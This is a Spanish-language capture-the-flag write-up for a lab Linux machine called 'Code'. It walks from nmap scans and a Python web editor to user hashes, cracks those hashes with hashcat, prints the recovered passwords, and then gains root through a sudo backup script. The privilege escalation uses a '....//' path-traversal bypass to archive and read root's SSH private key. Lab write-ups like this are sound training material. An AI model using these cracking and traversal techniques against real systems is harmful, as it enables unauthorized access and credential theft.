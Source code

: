 # Información

+ Nombre: Code
+ IP: 10.129.231.240
+ OS: Linux
+ Dificultad: Easy

# Enumeración

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n --open -oG allports 10.129.231.240
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Escaneo detallado:

```
nmap -p22,5000 -sCV -oN recon 10.129.231.240
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 5000 hay un servidor web `Gunicorn`. 
## Web

En la pagina se encuentra un editor de codigo pyhton:

![[web.png]]

Intento de ejecutar comandos en el sistema con `os`, pero esta restringido:

![[os.png]]

![[os2.png]]

Enumero variables y clases globales:

![[globals.png]]

db y User son interesantes.

![[type.png]]

`User` es `sqlalchemy`.

+ `Sqlalchemy` es una librería de python para trabajar con bases de datos relacionales.

![[dir.png]]

Columnas `id`, `username` y `password` en `User`.

usuarios y hashes de contraseña:

![[query.png]]

## Hashcat

Uso hashcat para intentar crackear los hashes:

```
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
``` 

+ `-a 0` para indicar ataque con diccionario.
+ `-m 0` indicar el tipo de hash, `0` pertenece a md5.

```
759b74ce43947f5f4c91aeddc3e5bad3:development              
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

# Shell como martin

Las credenciales `martin` y `nafeelswordsmaster` son validas para conexión por `ssh`:

![[ssh.png]]

![[martin.png]]
# PrivEsc

![[sudo.png]]

`martin` puedo ejecutar `backy.sh` sin contraseña y como cualquier usuario(`incluyendo root`).

`backy.sh`:

```
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

En el directorio `home` de `martin` hay un directorio `backup` con un comprimido y un archivo `task.json`:

![[json.png]]

El script usa un archivo json para crear un backup.

+ `destination:` El directorio donde se guarda el backup.
+ `directories_to_archive:` directorios a comprimir.
+ `exclude: .*` excluye archivos que comiencen en `.` que son archivos ocultos. 

Creo una copia de `task.json`:

```
cp task.json crab.json
```

Intento crear un backup de la clave privada `id_rsa` del usuario `root`:

```
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/../root/.ssh/id_rsa"
        ]
}
```

Los  `..` son para retroceder al directorio raiz, porque el script valida si el path comienza en `/home/ o /var/`.

Fail:
![[sudo2.png]]

En el script `gsub("\\.\\./"; "")` esta remplazando `../` por cadenas vacias.

Agrego doble `../` 
`/home/....//root/.ssh/id_rsa`

![[sudo3.png]]

Lo descomprimo y leo la clave privada `id_rsa`:

```
tar -jxf code_home_.._root_.ssh_id_rsa_2025_August.tar.bz2
```

```
cat root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<..snip..>
j6PbYp7f9qvasJPc6T8PGwtybdk0LdluZwAC4x2jn8wjcjb5r8LYOgtYI5KxuzsEY2EyLh
hdENGN+hVCh//jFwAAAAlyb290QGNvZGU=
-----END OPENSSH PRIVATE KEY-----
```

Copio la clave en un archivo llamado `id_rsa`:

![[root.png]]

```
root@code:~# whoami
root
root@code:~# hostname -I
10.129.231.240 dead:beef::250:56ff:fe94:7aae 
root@code:~# cat /root/root.txt
636b0bf9************************
```

Se me olvido la flag `user.txt`, se encuentra en el directorio home `app-production`, el usuario `martin` no tiene permisos para acceder a el:

```
root@code:~# cat /home/app-production/user.txt
8695228907f*********************
```

# 🦀